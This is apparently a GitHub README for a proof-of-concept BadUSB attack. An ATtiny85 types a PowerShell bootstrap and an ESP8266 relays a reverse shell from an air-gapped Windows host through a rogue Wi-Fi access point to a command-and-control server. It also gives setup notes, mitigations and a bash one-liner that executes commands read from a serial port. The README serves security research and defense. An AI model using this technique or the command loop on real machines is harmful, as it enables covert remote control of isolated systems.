

# revshellAirgap (PoC)

revshellAirgap is a proof of concept showing a technique to establish an interactive Reverse Shell on a network-isolated Windows host with no Internet access. 

## Responsible use notice
These materials are provided for educational and research purposes. Any testing or use must be limited to systems, networks, or devices owned by the user, or to environments where explicit permission to test has been granted. Guidance that could facilitate unauthorized or harmful activity will not be provided. The “Setup used” section lists development prerequisites for the specific hardware shown and intentionally omits operational configuration details to avoid promoting misuse; adaptation guidance for other devices will not be provided. Requests for assistance regarding the use or setup of this PoC will be ignored.


## Demo

Click below to see the video:

[](https://www.youtube.com/watch?v=fz-LbaSFADM)

## Overview

This PoC uses three small components to relay an interactive session from an air-gapped Windows host:

- ATtiny85 (USB HID): types a short PowerShell bootstrap on the target
- ESP8266 (USB COM device): exposes a virtual COM port and forwards data between COM and a Wi-Fi connection
- Android phone: provides the Wi-Fi Rogue access point used by the ESP8266 to reach the Internet

The target does not use its own network adapters for this traffic. Data path:

PowerShell Reverse Shell -> COM port -> ESP8266 -> Wi-Fi Rogue access point -> Internet -> Command and Control


## Architecture



## Components

### ATtiny85


### ESP8266 Wi-Fi


## Setup used

* ATtiny Core for ATtiny85: `http://drazzy.com/package_drazzy.com_index.json`
* Arduino Core for ESP8266: `https://arduino.esp8266.com/stable/package_esp8266com_index.json`
* DigiKeyboard library from `https://github.com/LucaReggiannini/digikeyboard-library`


* UDEV Rules for ATtiny85 (from `https://github.com/micronucleus/micronucleus/blob/master/commandline/49-micronucleus.rules`):
```bash
SUBSYSTEMS=="usb", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666"
KERNEL=="ttyACM*", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666", ENV{ID_MM_DEVICE_IGNORE}="1"
```
* Permissions for the `/dev/ttyUSBX` file for ESP8266:
```bash
me@macbook:~$ ls -l /dev/ttyUSB0
crw-rw---- 1 root uucp 188, 0 Dec 20 05:16 /dev/ttyUSB0
me@macbook:~$ sudo usermod -aG uucp $USER # reboot may be required
```

## Notes

* This approach works even if the target is network-isolated (by firewall rules, security policies and similar): in this setup, the target host does not generate network traffic via its own network interfaces. (Technical note: while the target host generates no network traffic, the upstream connection, from ESP8266/AP to the Command and Control server, is intentionally left unencrypted and may be monitored or logged by networks/providers along the path)
* Physical access is needed to plug in the BadUSB devices. Every time an interaction with the shell is needed, the USB module must stay within Wi-Fi range of the Access Point
* With only ~512 bytes of memory on the ATtiny85, the bootstrap must remain minimal. However, it still includes enough logic to keep enumerating serial ports even if the USB module is unplugged/plugged back in, forward data to/from the virtual COM port, and automatically re-establish the session after link drops. Because of these memory limitations, the PoC is volatile: it lasts only until reboot or user logoff; persistence and any other advanced feature are intentionally out of scope and will not be implemented in the PoC
* The same principle can also apply to Linux targets. The snippet below is illustrative only and is not optimized to fit the ATtiny85’s memory limits; it will not be implemented in this PoC.
```bash
sudo fuser -k /dev/ttyUSB0; DEV=/dev/ttyUSB0; stty -F "$DEV" 115200 raw -echo -ixon -ixoff -crtscts icrnl; exec 3<>"$DEV"; while IFS= read -r -u 3 cmd; do bash -lc "$cmd" >&3 2>&1; printf '\n' >&3; done; 
```

## Possible mitigations
Some guidelines to mitigate this type of BadUSB attack:
* Enforce USB device control with a block-by-default policy and allowlist only approved devices, especially HID keyboards and USB-serial/virtual COM devices.
* Review USB/device events and system/process activity for newly connected HID/USB-serial devices and for suspicious scripting or processes that reference COM ports or serial-port APIs.
* Use physical USB port controls (for example port blockers) on sensitive endpoints where feasible.
